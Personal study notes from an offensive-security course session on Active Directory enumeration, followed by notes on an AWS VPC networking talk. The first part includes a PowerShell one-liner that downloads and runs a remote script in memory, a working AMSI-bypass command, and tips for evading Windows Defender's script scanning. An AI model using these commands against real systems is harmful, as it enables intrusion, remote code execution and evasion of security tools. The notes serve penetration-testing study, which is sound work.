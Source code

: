 # OffSec Live: PEN-200 & AWS Deep Dive

author:: Nathan Acks  
date:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 — Active Directory Enumeration & Exploitation, Part 1

* The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.
* The Windows host name will be returned by the `hostname` command.
* The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it’s domain-joined.
* Use `net users` to enumerate all local users on Windows.
* Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.
* Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you’re logged in with a local or domain account).
* When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.
* Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.
* See all Windows administrators for the local system: `net localgroup administrators`
* By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.
* One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn’t* show domain groups that are members of that group; for this you need to use PowerShell.
* A good enumeration tool is `PowerView.ps1`. 
* One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.
* The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, *including* nested domain groups.
* Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.
* The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.
* Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.
* You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).
* Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there’s a lot of bypasses for this — for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.
* AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you’re trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the “Bypass AMSI by manual modification” link).
* Be aware that AMSI bypasses are *per session*, not global!

### References

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

* VPC was originally created to help *Amazon* migrate their data centers to AWS.
* EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.
* VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don’t overlap and (2) are entirely contained within the VPC network.
* VPCs are *not* VLAN based — there are at most 4096 separate VLAN tags.
* VPCs are identified internally with a 128 bit number (8 hex digits).
* The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn’t *just* provide L2 information — servers receiving packets also verify that those packets are authentic (that the packet’s server/instance/VPC tuple matches an existing system).
* The mapping service also functions as a “virtual gateway”, providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.
* In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*
* There are two types of caches — caches to individual hosts (EC2) instances, and caches to “edges”, which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.
* Edges also function as a 1-to-1 NAT in their role as internet gateways.
* Edge devices are called “Blackfoot”, after the South African Blackfoot Penguin.
* The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.
* Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet — they go out to an edge device and then are routed from there to S3.
* S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon (“Aspen”) policy document structure.
* 

### References

* [AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)
